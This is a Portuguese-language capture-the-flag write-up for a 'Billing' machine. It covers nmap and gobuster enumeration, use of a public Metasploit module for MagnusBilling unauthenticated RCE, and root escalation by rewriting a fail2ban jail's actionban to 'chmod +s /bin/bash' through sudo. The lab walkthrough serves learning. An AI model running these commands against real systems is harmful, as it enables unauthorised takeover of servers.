








# _**Billing CTF**_


## _**Enumeração**_
Primeiro, vamos começar com um scan <mark>Nmap</mark>
> ```bash
> nmap -p- --open -A -T4 [ip_address]
> ```


Um serviço SSH, um website
Temos também um banco de dados: **MariaDB 10.3.23 or earlier**  
E um software para construção de aplicações de comunicação: **Asterisk Call Manager 2.10.6**  
Vamos visitar o website primeiro  
Também, um scan com <mark>Gobuster</mark>
> ```bash
> gobuster dir --url http://[ip_address]/mbilling -w ../seclists/Discovery/Web-Content/common.txt
> ```


Temos diversos diretórios com diversas informações  
Além da página inicial termos uma página de login  
O serviço é denominado **MagnusBilling**  
Pesquisando por uma vulnerabilidade, encontramos [a seguinte neste site](https://www.rapid7.com/db/modules/exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258/)  
Alterahos **LHOST** e **RHOSTS**, em seguida, executamos  



Após conseguir uma sessão com _meterpreter_, investigamos alguns arquivos como _.ssh_ e _.bash_history_, mas sem sucesso  
Tentamos também buscar por informações sensíveis nos arquivos encontrados em _/var/www/html_, mas nada  
Executando ```shell``` em nossa sessão _meterpreter_ para conseguir informações melhores  
Primeiro, vamos tentar ```sudo -l```  



Verificando as permissões de arquivo e seu conteúdo  
Foi possível constatar que é possível ler e executar o arquivo, mas não escrever  
Outra informação interessante encontrada é:  



As _jails_ são basicamente configurações que definem quais logs monitorar, os padrões a serem procurados e as ações a serem tomadas quando um padrão é correspondido  
Para usar o fail2ban para executar comandos como root, podemos modificar uma das ações definidas para a _jail_, como a ação a ser executada (comando a ser executado) ao banir um IP  
Primeiro, recuperamos as ações definidas atualmente para uma das _jails_ ativas com:
> ```bash
> sudo /usr/bin/fail2ban-client get asterisk-iptables actions
> ```


Em seguida, modificamos o comando para o actionban na ação **iptables-allports-ASTERISK**, que é executado ao banir um IP para o **asterisk-iptables jail**  
> ```bash
> sudo /usr/bin/fail2ban-client set asterisk-iptables action iptables-allports-ASTERISK actionban 'chmod +s /bin/bash'
> ```
Por fim, vamos digitar o comando abaixo
> ```bash
> sudo /usr/bin/fail2ban-client set asterisk-iptables banip [random_ip]
> ```
E com ```/bin/bash -p``` temos _root_



Agora, ir atrás das flags!
